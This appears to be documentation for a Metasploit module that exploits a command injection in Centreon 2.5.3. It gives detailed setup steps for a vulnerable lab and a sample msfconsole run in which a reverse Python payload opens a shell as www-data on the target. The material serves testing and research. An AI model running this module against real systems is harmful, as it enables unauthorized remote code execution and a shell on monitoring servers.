 ## Vulnerable Application

1. [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
2. Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install. My user was `centreon`
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
```
sudo apt purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`
sudo add-apt-repository ppa:ondrej/php
sudo apt-get install php5.6
sudo apt-get install php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml php5.6-gd php5.6-ldap php5.6-sqlite3
sudo apt-get install build-essential cmake librrd-dev libqt4-dev libqt4-sql-mysql libgnutls28-dev python-minimal
sudo apt-get install tofrodos bsd-mailx lsb-release mysql-server libmysqlclient-dev apache2 php-pear rrdtool librrds-perl libconfig-inifiles-perl libcrypt-des-perl libdigest-hmac-perl libgd-gd2-perl snmp snmpd libnet-snmp-perl libsnmp-perl
  select OK
  select No Configuration
sudo apt-get install snmp-mibs-downloader
```
  3. Enable php5.6 in Apache with `a2enmod`, disable php7.0 with `a2dismod`
```
a2enmod php5.6
a2dismod php7.0
```
  4. Restart apache with `sudo apache2ctl restart`
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
```
wget http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz
tar xvf nagios-plugins-2.1.1.tar.gz
cd nagios-plugins-2.1.1/
./configure
make
sudo make install
```
  6. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-clib
cd centreon-clib/build
cmake .
make
sudo make install
```
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-broker
cd centreon-broker/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  8. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-engine
cd centreon-engine/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html) but only the command line portion.
```
sudo mkdir /var/log/centreon-engine
cd ~
sudo pear install XML_RPC-1.4.5
wget https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
tar vxf bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
cd centreon-2.5.3
sudo ./install.sh -i
  <enter>
  q
  y
  y
  y
  y
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  <enter>
  <enter>
  centreon
  <enter>
  /var/log/centreon-engine
  /home/centreon/nagios-plugins-2.1.1/plugins
  <enter>
  /etc/init.d/centengine
  /usr/local/bin/centengine
  /usr/local/etc/
  /usr/local/etc/
  /etc/init.d/centengine
  <enter>
  y
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
  <enter>
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
```
  10. Fix apache config
```
sudo cp /etc/apache2/conf.d/centreon.conf /etc/apache2/conf-available/
sudo sed -i 's/Order allow,deny/Require all granted/' /etc/apache2/conf-available/centreon.conf
sudo sed -i 's/allow from all//' /etc/apache2/conf-available/centreon.conf
sudo a2enconf centreon
sudo service apache2 reload
```
  11. Configure via website.  Browse to <ip>/centreon
```
next
next
select centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/bin/centenginestats
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  next
select centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/cbmod.so
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  next
Pick whatever details about your user you want, next
Fill in mysql Root password, next
next
next
finish
```
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/centreon_useralias_exec`
  4. Do: `set payload`
  5. Do: `set rhost`
  6. Do: `check`
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

Just a standard run.

    msf > use exploit/linux/http/centreon_useralias_exec
    msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
    rhost => 192.168.2.85
    msf exploit(centreon_useralias_exec) > set verbose true
    verbose => true
    msf exploit(centreon_useralias_exec) > check
    [+] Version Detected: 2.5.3
    [*] 192.168.2.85:80 The target appears to be vulnerable.
    msf exploit(centreon_useralias_exec) > exploit
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious login
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
    whoami
    www-data
    uname -a
    Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```